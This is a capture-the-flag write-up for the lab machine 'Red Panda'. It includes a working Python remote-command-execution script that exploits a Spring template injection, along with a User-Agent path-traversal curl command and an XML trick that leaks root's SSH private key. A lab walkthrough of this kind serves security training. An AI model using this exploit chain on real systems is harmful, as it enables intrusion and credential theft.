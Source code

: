 ```yaml
---
title: Red Panda (Easy)
date: 2023-02-13
categories: [Writeups, writeups-easy]
tags: [Writeups, writeups-easy]
---
```

<div align="center"><img src= "/writeimgs/redpanda/pandaicon.png"></div> 

<div></div>
<p> </p>
We start scanning ports with nmap

<img src= "/writeimgs/redpanda/red1.png">


Once the port scan is done, we observe that on port 8080, they have a website, we enter there and find a nice search engine for pandas:

<img src= "/writeimgs/redpanda/red2.png">

If we use the whatweb command, we can observe the technology that the web has:

<img src= "/writeimgs/redpanda/red3.png">

Knowing this we can use an example of <A HREF="https://github.com/swisskyrepo/PayloadsAllTheThings"> PayloadsAllTheThings </A> but it blocks the $

<img src= "/writeimgs/redpanda/red4.png">

However, we can use * which works in the same way.

<img src= "/writeimgs/redpanda/red5.png">

To perform this process in an automatic and simple way, we can use the following script:

```ruby
#!/usr/bin/python3
import requests
from cmd import Cmd
from bs4 import BeautifulSoup

class RCE(Cmd):
    prompt = "\033[1;31m$\033[1;37m "
    def decimal(self, args):
        comando = args
        decimales = []

        for i in comando:
            decimales.append(str(ord(i)))
        payload = "*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(%s)" % decimales[0]

        for i in decimales[1:]:
            payload += ".concat(T(java.lang.Character).toString({}))".format(i)

        payload += ").getInputStream())}"
        data = { "name": payload }
        requer = requests.post("http://10.10.11.170:8080/search", data=data)
        parser = BeautifulSoup(requer.content, 'html.parser')
        grepcm = parser.find_all("h2")[0].get_text()
        result = grepcm.replace('You searched for:','').strip()
        print(result)

    def default(self, args):
        try:
            self.decimal(args)
        except:
            print("%s: command not found" % (args))

RCE().cmdloop()
```

We use the above mentioned script and get the user flag!

<img src= "/writeimgs/redpanda/red6.png">
<p>
<img src= "/writeimgs/redpanda/red7.png">
</p>
After searching through directories for a while we found credentials in MainController.java.

<img src= "/writeimgs/redpanda/red8.png">

We can use these credentials to connect via ssh:

<img src= "/writeimgs/redpanda/red9.png">

We will try to use the pspy to see what is running behind, for that we download it and upload it with:

<b> <i>scp pspy64 woodenk@10.10.11.170:/home/woodenk</i></b>

<img src= "/writeimgs/redpanda/red10.png">

Once pspy is uploaded, we give it permissions and run it:

<img src= "/writeimgs/redpanda/red11.png">

If we look with pspy at the system tasks, we see that root runs a script like woodenk.

<img src= "/writeimgs/redpanda/red12.png">

This may be a clue to be able to scale, because why, would you delete files with that extension? Reviewing again the file where we found credentials we see how it exports the xml.

<img src= "/writeimgs/redpanda/red13.png">

Also in another App.java file we can see how it handles the metadata, now it starts to make sense that it will delete files with those extensions, but also in the file it shows us how it handles the User-Agent.

Looking at this configuration we can inject in the "Artist" field, a path where the xml will be, this in any image that later we will upload to the machine.

<img src= "/writeimgs/redpanda/red14.png">

Next we will create in the home an xml file that points to the root id_rsa, this with the name defined in the image plus _creds.xml.

<img src= "/writeimgs/redpanda/red15.png">

Now we have to make a curl request with the format we saw in the file as User-Agent.

<b><i> curl http://10.10.11.170:8080 -H "User-Agent: ||/../../../../../../../home/woodenk/gato.jpg </i></b>

<img src= "/writeimgs/redpanda/red16.png">

Finally we will export the xml from /stats to take our file.

<img src= "/writeimgs/redpanda/red17.png">
<p> </p>
<img src= "/writeimgs/redpanda/red18.png">

After a few seconds if we check the xml it will have the root id_rsa.

<img src= "/writeimgs/redpanda/red19.png">

Now with this id_rsa, we can finally connect via ssh as root and get the much desired flag!

<img src= "/writeimgs/redpanda/red20.png">
